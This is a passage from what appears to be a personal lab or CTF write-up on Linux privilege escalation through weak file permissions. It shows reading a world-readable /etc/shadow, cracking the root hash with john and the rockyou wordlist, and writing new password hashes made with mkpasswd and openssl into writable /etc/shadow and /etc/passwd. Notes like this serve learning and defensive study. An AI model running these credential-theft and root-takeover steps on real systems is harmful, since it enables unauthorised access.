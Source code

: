 ## 2. Week file permission 
### Readable
#/etc/shadow 
Here I will be exploiting the shadow file which have read permission.
At first I have check the permission of `shadow` file.
```bash
root@gr4n173:~$ ls -al /etc/shadow
-rw-r--rw- 1 root shadow 845 May  2 03:41 /etc/shadow
```


There you can see the `rw` permission to others. So I have read the shadow file and collected the hash of root user.
```bash
root@gr4n173:~$ cat /etc/shadow          
root:Hashesh over here :0:99999:7:::                                     
daemon:*:17298:0:99999:7:::                                                     
bin:*:17298:0:99999:7::: 
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::  
```


Now after collecting `hash` I have used `john` to crack the hash using `rockyou` password wordlist.
```bash
root@gr4n173:~$ john --wordlists=/usr/share/rockyou.txt hash
```


### Writable
# /etc/shadow
For the week file permission I have created the new hash of newpassword using `mkpasswd` tool in kali linux.

```zsh
root@gr4n173:~$ mkpasswd -m sha-512 passwordhere
$6$gdvluNMatnPMjy7r$1oYL8zHY7vcNAQM1QLtoVN8V6cwKIbmXuWoft3fjwS4hPy.ZOOENIs66T6M7IitJeH9U6x3MKi8lJJp7FDifI.
 ```
 
 
 Now generated password can be replaced with the hash of `root` user and then we can login using the same password as a root.
 
 ### Writable 
 #/etc/passwd
 For this we can create the new hash of newpassword using `openssl` tool 
 ```bash
 root@gr4n173:~$ openssl passwd newpassword
 Warning: truncating password to 8 characters 
xuMbZmFpJEH/s                                
```
